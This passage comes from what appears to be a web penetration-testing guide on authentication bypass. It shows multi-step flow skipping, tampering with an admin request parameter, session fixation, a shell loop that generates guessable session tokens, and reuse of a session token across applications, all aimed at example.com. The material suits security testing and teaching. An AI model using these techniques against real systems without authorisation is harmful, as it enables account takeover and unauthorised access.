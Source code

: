```
1. Start authentication process
2. Complete step 1 (e.g., enter username)
3. Note the URL/session state
4. Skip to final step by directly accessing the URL or modifying state
```

#### Parameter Manipulation

```
# Original request
POST /login
username=user&password=pass&admin=false

# Modified request
POST /login
username=user&password=pass&admin=true
```

### 5. Session-Based Bypasses

#### Session Fixation

```
1. Attacker obtains a valid session ID
2. Attacker tricks victim into using that session ID
3. Victim authenticates, upgrading the attacker's known session
```

#### Predictable Session Tokens

```
# Looking for patterns in session tokens
SESS_12345
SESS_12346
SESS_12347

# Generating likely valid tokens
for i in {12300..12400}; do echo "SESS_$i"; done
```

#### Session Puzzle Technique

```
# Request 1: Get a valid session for Application A
GET /app_a/ HTTP/1.1
Host: example.com

# Request 2: Use that session token for Application B
GET /app_b/ HTTP/1.1
Host: example.com
Cookie: session=<token_from_app_a>
```

### 6. Cookie-Based Authentication Bypass
